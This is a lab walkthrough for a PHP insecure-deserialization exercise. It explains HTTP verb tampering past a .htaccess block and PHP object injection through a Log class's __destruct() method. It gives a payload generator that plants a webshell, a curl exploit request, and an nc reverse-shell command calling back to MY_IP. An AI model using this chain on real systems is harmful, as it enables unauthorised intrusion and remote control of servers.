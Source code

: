 ### Pipe - Insecure Deserialization

Within this walkthrough, I will skip any part not related to the web application exploitation, but for sake of consistency I would briefly explain what (and why) I skip.

#### Intro

Pipe web application is made up on 3 PHP files only, not enough to be a challenge. But for anyone very unfamiliar with PHP Object injection it's good doing this exercise.

#### Vulnerability Discovery

The application is .htaccess protected, but easily accessible via HTTP verb tampering, as observable below:

```xml
AuthUserFile /var/www/html/.htpasswd
AuthName "index.php"
AuthType Basic
<Limit GET PUT HEAD OPTIONS DELETE>
    require valid-user
</Limit>
```

The index.php, below, reveal an interesting application behaviour. In order to get the author information, an instance of Info is created within the page, then compared with a serialised object via an HTTP POST parameter "param".

Things to note:

* The POST parameter "param" is insecurely unserialized
* Two imports are present within the index file:
    - info.php (not a surprise)
    - log.php

Note: I have removed all the HTML useless bits.
```php
<?php
include 'info.php';
include 'log.php';

$artist = new Info();
$artist->id = 1;
$artist->firstname = 'Rene';
$artist->surname = 'Margitte';
$artist->details = '...';

...
if (isset($_POST['param'])) {
    $info = unserialize($_POST['param']);
    if (strcasecmp($info->firstname, $artist->firstname) == 0 && strcasecmp($info->surname, $artist->surname) == 0){
        echo $artist->details;
    }
}
...
?>
```

The info class is just a structure with no methods. Let's focus on log.php:

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
        file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```

We found the class we were searching for. The class holds two variables, $filename and $data, and upon destruction it writes the content of $data into $filename. It's perfectly suitable as a gadget for exploitation, as the __destruct() method will be called just after deserialization.

High level explanation: 

1. HTTP POST with serialised Log is performed against index.php 
2. index.php (caller) calls unserialize and create an instance of Log via deserialization
3. index.php (caller) reaches its end, 
4. The instance of the Log (called) object has no reasons to stay in memory longer than its caller, so it gets destructed
5. __destruct()

#### Exploitation

We just need to craft a serialised instance of Log, to write something within the VM filesystem. Guess what? Right, a PHP webshell (or even a PHP reverse-shell as you like)

Crafting the payload:

* Create the file generate.php
```php
<?php 
class Log
{  
    public $filename="/var/www/html/shell.php";
    public $data="<?php system(\$_GET['cmd']);?>";
}
print(urlencode(serialize(new Log))."\n"); 
?>
```
* Execute it
```sh
php generate.php
```
* Use it:
```sh
curl -ksi -X POST 'http://pipe.local/index.php' --data-binary 'param=O%3A3%3A%22Log%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A24%3A%22%2Fvar%2Fwww%2Fhtml%2Fshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A29%3A%22%3C%3Fphp+system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%3B%7D'
```
* Obtain a reverse shell
```sh
gnome-terminal -- nc -lvkp 443 2>/dev/null && curl -ksi http://pipe.local/shell.php?cmd=nc+-e+/bin/bash+MY_IP+443
```

#### Conclusion

Good machine to start with PHP deserialization, but not even close to the level of complexity that OSWE can achieve.
